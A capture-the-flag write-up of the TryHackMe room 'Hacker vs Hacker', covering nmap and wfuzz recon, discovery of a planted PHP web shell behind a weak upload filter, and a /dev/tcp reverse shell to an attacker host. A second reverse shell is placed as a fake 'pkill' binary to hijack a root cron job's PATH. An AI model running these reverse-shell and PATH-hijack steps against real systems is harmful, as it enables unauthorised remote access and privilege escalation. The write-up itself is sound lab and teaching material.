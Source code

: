 ```yaml
---
title: 'Hacker vs Hacker'
description: "Someone has compromised this server already! Can you get in and evade their countermeasures?"
date: 2024-05-06T23:08:11+02:00
tags: 
    - "tryhackme"
    - "easy"
draft: false
external_url: "https://tryhackme.com/r/room/hackervshacker"
---
```


## Questions
1. What is the user.txt flag?
1. What is the proof.txt flag?

## Reconnaissance

### Nmap
```bash
$ nmap -sC -sV <trgt>

Starting Nmap 7.80 ( https://nmap.org ) at 2024-05-06 23:16 CEST
Nmap scan report for <trgt>
Host is up (0.088s latency).
Not shown: 998 closed ports

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: RecruitSec: Industry Leading Infosec Recruitment

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Nmap showed `SSH` on port `22` and `Apache` on port `80`. Simple.

### Website
Website looked basic enough, it did have a file upload at the bottom for CVs.
![cv_upload.png](/write-up/hacker-vs-hacker/cv_upload.png)

Trying to upload any file display a message from the orginal hacker.
> Hacked! If you dont want me to upload my shell, do better at filtering!

Checking the source of the website will show the following:

```html
Hacked! If you dont want me to upload my shell, do better at filtering!

<!-- seriously, dumb stuff:

$target_dir = "cvs/";
$target_file = $target_dir . basename($_FILES["fileToUpload"]["name"]);

if (!strpos($target_file, ".pdf")) {
  echo "Only PDF CVs are accepted.";
} else if (file_exists($target_file)) {
  echo "This CV has already been uploaded!";
} else if (move_uploaded_file($_FILES["fileToUpload"]["tmp_name"], $target_file)) {
  echo "Success! We will get back to you.";
} else {
  echo "Something went wrong :|";
}

-->
```

Summerized:
- Final file will be in `cvs/`
- Filename must have `.pdf` in them (anywhere is fine)

ezpz.

## Exploitation
So we know this server is compromised, we know how and we know where. As the hacker said, he uploaded his shell. Let's find it.

```bash
$ wfuzz -u http://<trgt>/cvs/FUZZ.pdf.php -w /opt/SecLists/Discovery/Web-Content/common.txt --hc 404,403

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://<trgt>/cvs/FUZZ.pdf.php
Total requests: 4727

=====================================================================
ID           Response   Lines    Word       Chars       Payload 
=====================================================================

000003754:   200        1 L      2 W        18 Ch       "shell"          

Total time: 0
Processed Requests: 4727
Filtered Requests: 4726
Requests/sec.: 0
```

**Boom** got it.

Now we need the parameter name used to execute commands..
```bash
$ wfuzz -u http://<trgt>/cvs/shell.pdf.php?FUZZ=id -w /opt/SecLists/Discovery/Web-Content/burp-parameter-names.txt --hl 1

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://<trgt>/cvs/shell.pdf.php?FUZZ=id
Total requests: 6453

=====================================================================
ID           Response   Lines    Word       Chars       Payload
=====================================================================

000001164:   200        2 L      5 W        72 Ch       "cmd"

Total time: 0
Processed Requests: 2680
Filtered Requests: 2679
Requests/sec.: 0
```

**Boom²** Success, now we can finally get a foodhold on the system.

## Foothold
Thanks to our fuzzing we know we can execute commands on the server by heading to `http://<trgt>/cvs/shell.pdf.php?cmd=<command>`.
I tried just using a reverse shell but that didn't seem to work. What I can do on the other hand is curl a reverse shell from my machine and pipe it to bash.

```bash
$ cat shell.sh 
bash -i >& /dev/tcp/<atkr>/9001 0>&1
```

We can easily URL encode it using something like [CyberChef](https://gchq.github.io/CyberChef/).
![CyberChef, URL encoding a curl command](/write-up/hacker-vs-hacker/curl_shell.png)

After hosting a http server with `$ python3 -m http.server 9002` I put the encoded payload in the URL, pressed enter and prayed..
```bash
www-data@b2r:/var/www/html$ nc -nvlp 9001
Listening on 0.0.0.0 9001
Connection received on <trgt> 54946
sh: 0: can't access tty; job control turned off
www-data@b2r:/var/www/html/cvs$ _
```
We're in!

## User flag
My first thought was to look in the `/home/` directory to see if we can read anything.
```bash
$ ls -l /home/
total 4
drwxr-xr-x 4 lachlan lachlan 4096 May  5  2022 lachlan
```
'Ello there, we can read and execute in the home directory of `lachlan`.

```bash
www-data@b2r:/home/lachlan$ ls -la
total 36
drwxr-xr-x 4 lachlan lachlan 4096 May  5  2022 .
drwxr-xr-x 3 root    root    4096 May  5  2022 ..
-rw-r--r-- 1 lachlan lachlan  168 May  5  2022 .bash_history
-rw-r--r-- 1 lachlan lachlan  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 lachlan lachlan 3771 Feb 25  2020 .bashrc
drwx------ 2 lachlan lachlan 4096 May  5  2022 .cache
-rw-r--r-- 1 lachlan lachlan  807 Feb 25  2020 .profile
drwxr-xr-x 2 lachlan lachlan 4096 May  5  2022 bin
-rw-r--r-- 1 lachlan lachlan   38 May  5  2022 user.txt

www-data@b2r:/home/lachlan$ cat user.txt
thm{████████████████████████████████}
```
There's the user flag.

## Root flag

```bash
www-data@b2r:/home/lachlan$ cat .bash_history
./cve.sh
./cve-patch.sh
vi /etc/cron.d/persistence
echo -e "dHY5pzmNYoETv7SUaY\n███████████████\n███████████████" | passwd
ls -sf /dev/null /home/lachlan/.bash_history
```

Acording to the history he's:
- Creating a cronjob called `persistence`
- Adding a login to passwd
- Failing to clear the bash history

```bash
www-data@b2r:/home/lachlan$ cat /etc/cron.d/persistence
PATH=/home/lachlan/bin:/bin:/usr/bin
# * * * * * root backup.sh
* * * * * root /bin/sleep 1  && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 11 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 21 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 31 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 41 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
* * * * * root /bin/sleep 51 && for f in `/bin/ls /dev/pts`; do /usr/bin/echo nope > /dev/pts/$f && pkill -9 -t pts/$f; done
```

Looks promising, `/home/lachlan/bin` is being set in the `PATH` variable and the `pkill` command used in the cronjob isn't a full path. This means that we could create our own "pkill" binairy inside of `/home/lachlan/bin` and have that run instead.

`www-data` did not have the correct permissions to write to `/home/lachlan/bin/`, I tried to `$ su lachlan` with the credentials from the `.bash_history` file and was successful.

I ran the following command to insert the reverse shell into a file called "pkill" and waited. `echo "bash -c 'bash -i >& /dev/tcp/<atkr>/9002 0>&1'" > bin/pkill; chmod  +x bin/pkill`

```bash
$ nc -nvlp 9002
Listening on 0.0.0.0 9002
Connection received on <trgt> 43462
bash: cannot set terminal process group (1896): Inappropriate ioctl for device
bash: no job control in this shell
root@b2r:~# _
```

Aand we're root.
```bash
root@b2r:~# cat root.txt
thm{████████████████████████████████}
```